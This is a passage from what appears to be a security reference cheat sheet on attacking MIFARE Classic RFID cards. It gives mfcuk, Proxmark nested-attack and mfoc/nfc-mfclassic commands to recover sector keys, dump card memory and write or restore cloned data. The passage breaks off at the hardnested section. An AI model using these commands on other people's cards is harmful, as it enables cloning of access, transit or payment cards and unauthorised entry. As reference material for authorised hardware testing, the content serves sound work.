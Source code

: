 **ACR122u method**

```powershell
# start cracking the first key of the first sector. 
mfcuk -C -R 0:A -v 3 -s 250 -S 250
mfcuk -C -R 3:A -v 3 -s 250 -S 250 -o mycard.mfc
```

### Nested attack (PRNG Weak)

> Need to find a default key to extract the others

**Proxmark method**

```powershell
hf search
hf mf chk 1 ? t                      # "Test Block Keys" command which will test the default keys for us
hf mf nested 1 0 A a0a1a2a3a4a5 t.   # "Nested Attack" use the key a0a1a2a3a4a5, keeping the key in memory with "t"
hf mf chk * ?                        # "Test Block Keys" command which will test the default keys for us
hf mf nested 1 0 A ffffffffffff   d  # "Nested Attack" use the key ffffffffffff to extract the others (file:dumpkeys.bin)
hf mf dump 1                         # Dump content
hf mf restore 1                      # Restore content into the card
hf mf wrbl 5 A 080808080808 32110000cdeeffff3211000005fa05fa  # write on block 5, with the key 0808... the content 3211...
hf mf rdbl 5 A 080808080808          # Read block 5 with the keu 0808..


python pm3_mfd2eml.py dumpdata.bin dumpdata.eml
pm3> hf mf cload dumpdata
```

**ACR122u method**

```powershell
nfc-list
mfoc -O card.mfd # dump the memory of the tag
# Le paramètre P permet de spécifier le nombre de sondes par secteur. Par défaut, ce nombre est à 20 mais nous pouvons le passer à 500.
mfoc -P 500 -O dump_first_try.dmp
nfc-mfclassic w a key.mfd data.mfd # write data
nfc-mfclassic W a key.mfd data.mfd # write data and sector 0
```

### Hardnested attack

> One key is needed in order to use this attack

For newest MIFARE Classic and MIFARE Plus SL1

**Proxmark method**

:warning: NOTE: These hardware changes resulted in the Proxmark 3 Easy being incapable of performing several of the Proxmark's advanced features, including the Mifare Hard-Nested attacks. In other word you need a real Proxmark, not a cheap chinese copy.
